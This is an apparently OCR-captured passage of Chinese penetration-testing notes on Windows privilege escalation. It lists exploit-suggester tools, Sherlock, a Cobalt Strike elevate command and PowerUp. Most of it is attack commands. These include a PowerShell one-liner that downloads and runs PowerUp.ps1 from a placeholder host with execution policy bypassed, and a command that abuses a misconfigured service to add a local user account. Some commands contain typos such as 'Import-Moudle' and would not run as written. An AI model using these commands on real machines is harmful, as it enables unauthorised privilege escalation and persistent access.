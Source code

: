 ```
1. systeminfo 获取补丁情况
2. ./windows-exploit-suggester.py --update 下载安全公告数据库
3. pip install xlrd -upgrade 安装xlrd模块
4. ./windows-exploit-suggester.py -d xx.xls -i patches.txt
```

- local_exploit_suggester模块（识别系统中可能被利用的漏洞）

```
post/multi/recon/local_exploit_suggester
```

- powershell中Sherlock脚本

```
Import-Moudle c:\Sherlock.ps1
Find-AllVulns
```

- Cobalt Strike(3.6以后)

```
elevate ms14-058 smb
```

### Windows操作系统配置错误利用
#### 系统服务权限配置错误

- 下载地址

```
PowerUp
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
```

- 运行脚本

```
powershell.exe -exec bypass -Command "& (Import_Moudle .\PowerUp.ps1; Invoke-Allcheck)"

powershell.exe -nop -exec bypass  -c "IEX (New-Object Net.Webclient).DownloadString('http://xxx.com/PowerUp.ps1'); Invoke-Allcheck"
```

- 利用C#脚本添加用户(PowerUp的Install-ServiceBinary模块)

```
powershell.exe -nop -exec bypass IEX (New-Object Net.Webclient).DownloadString('c:\PowerUp.ps1');Install-ServiceBinary-ServiceName '服务名' -UserName syst1m -Password syst1m
```

- 重启系统生效

- 利用msf

```
service_permissions 模块 
利用目标机器上的每一个有缺陷的服务
```

